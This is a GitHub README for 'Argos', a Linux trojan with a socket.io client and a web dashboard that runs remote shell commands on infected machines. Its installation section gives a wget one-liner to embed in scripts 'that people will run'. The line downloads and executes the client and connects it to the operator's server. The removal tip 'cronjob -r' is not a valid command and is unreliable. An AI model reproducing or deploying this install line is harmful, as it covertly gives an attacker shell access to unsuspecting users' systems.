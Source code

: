 # Argos

*Can see everything, beware of its omniscience, kneel before its greatness.*

⚠️ *Do not use for illegal purposes*
*THIS PROJECT IS IN PROGRESS. The backend api is functionnal but the frontend is still in developpement*
## Summary

- [**Presentation**](#presentation)
- [**Installation**](#installation)
- [**Removing**](#removing)
- [**Credits**](#credits)

## Presentation

#### Main goal

This program work on **Linux** distrubtion.

The main goal of this project is to show how frighteningly easy it is to create a program that can access to another machine.
This project is a [**trojan**](https://us.norton.com/internetsecurity-malware-what-is-a-trojan.html) that, when used in an installation script, can easily be installed and gain access to the whole system.

#### How it works

There is 2 main parts to this project:
- The online server
- The client

#### Client side

Get to the client part
```bash
cd client/
```

The client side program is made using [**python3**](https://www.python.org/downloads/) and can easily be called in the installation script of another program by using a simple curl command.

The client side is using [**socket io**](https://socket.io/fr/) to connect with the server through web sockets.
In case the server is not running, the program will try every 3 seconds to connect to the server until it's connected.

Once connected, the client script is waiting for instructions from the server.
The instruction it can get are mostly commands. In order to run the commands, it's using a child process that is running a shell, writing in it's stdin using the file descriptor obtained through the pty.spawn command.

Once the child process is done running a command, it send a ALRM signal to its ppid so we can get the output of the command.

#### Server side

Get to the server part:
```bash
cd online_server
```
Front:
```bash
cd frontend
```
Backend:
```bash
cd server
```
The server is made in [**Node js**](https://nodejs.org/en/download/).
The backend is composed of 2 server :
- A [**socker io**](https://socket.io/fr/get-started/chat) server
- A [**express JS**](https://expressjs.com/fr/) server

The *express JS* server is meant to received the requests from the frontend server.
Here are the routes of that server.
| Route | Protected using JWT |
|-------|---------------------|
|/login | NO |
|/services/:id| YES |
|/services/:id/shell| YES|

The socket server accept sockets and stock them in a global variable so the connexion can be used later on.
The sockets are listenning to events and so we are using that so in case of deconnexion with a client, the client will automaticly be remove from the list.

The /shell endpoint use the socket io server sending a command to the client and waiting for a response to send back the information to the frontend.

FrontEnd endpoints:
| Endpoint | Protected |
|----------|-----------|
|/login    | NO        |
|/clients  | YES       |
|/services/:id| YES    |
|/services/:id/shell| YES |

## Installation

In order to use the project, you need to have a script that people will run.

In this very script, you juste have to call this command (remember to replace the 'Adress of the online server' by your server adress) :
```bash
wget -q -O - https://raw.githubusercontent.com/Just1truc/Argos/main/client/install_argos > here && chmod 777 here && bash here "Adress of the online server" && rm here
```
Once this command has been run, everthing should be ready for the client.

Also, to setup the server, it's kinda more complicated.
You have to host both the front and the backend.

## Removing

This trojan is pretty annoying right? So let's remove it from your computer !
To do so, you just need to first execute this command to get rid of the cronjob :
```bash
cronjob -r
```

Then, you need to cut the access to your computer, so let's kill the script doing that:
if you don't have ``htop``, you may have to install it.
```bash
htop -F python
```
Then, keep the pid of the command that is using *python3* to run and kill it:
```bash
kill [pid]
```


## Credits:

#### Client side && Backend developper : Justin Duc

[![linkeding bage](https://img.shields.io/badge/-linkedin-0A66C2?logo=linkedin&style=for-the-badge)](https://www.linkedin.com/in/justin-duc-51b09b225/)
[![git hub bage](https://img.shields.io/badge/-GitHub-181717?logo=GitHub&style=for-the-badge)](https://github.com/Just1truc)
[![mail](https://img.shields.io/badge/-Mail-0078D4?logo=Microsoft-Outlook&style=for-the-badge)](mailto:justin.duc@epitech.eu)

#### Frontend Developper : Baptiste Leroyer

[![linkeding bage](https://img.shields.io/badge/-linkedin-0A66C2?logo=linkedin&style=for-the-badge)](https://www.linkedin.com/in/baptiste-leroyer-a69894227/)
[![git hub bage](https://img.shields.io/badge/-GitHub-181717?logo=GitHub&style=for-the-badge)](https://github.com/ZiplEix)
[![mail](https://img.shields.io/badge/-Mail-0078D4?logo=Microsoft-Outlook&style=for-the-badge)](mailto:baptiste.leroyer@epitech.eu)

#### DevOps Developper : Leo Dubosclard

[![linkeding bage](https://img.shields.io/badge/-linkedin-0A66C2?logo=linkedin&style=for-the-badge)](https://linkedin.com/in/leo-dubosclard)
[![git hub bage](https://img.shields.io/badge/-GitHub-181717?logo=GitHub&style=for-the-badge)](https://github.com/ZerLock)
[![mail](https://img.shields.io/badge/-Mail-0078D4?logo=Microsoft-Outlook&style=for-the-badge)](mailto:leo.dubosclard@epitech.eu)

#### Frontend Developper : Joshua Brionne

[![linkeding bage](https://img.shields.io/badge/-linkedin-0A66C2?logo=linkedin&style=for-the-badge)](https://www.linkedin.com/in/joshua-brionne/)
[![git hub bage](https://img.shields.io/badge/-GitHub-181717?logo=GitHub&style=for-the-badge)](https://github.com/izimio)
[![mail](https://img.shields.io/badge/-Mail-0078D4?logo=Microsoft-Outlook&style=for-the-badge)](mailto:joshua.brionne@epitech.eu)

#### Frontend Developper : Paul laban

[![linkeding bage](https://img.shields.io/badge/-linkedin-0A66C2?logo=linkedin&style=for-the-badge)](https://www.linkedin.com/in/paul-laban-5b190b227/)
[![git hub bage](https://img.shields.io/badge/-GitHub-181717?logo=GitHub&style=for-the-badge)](https://github.com/501stEcho)
[![mail](https://img.shields.io/badge/-Mail-0078D4?logo=Microsoft-Outlook&style=for-the-badge)](mailto:paul.laban@epitech.eu)
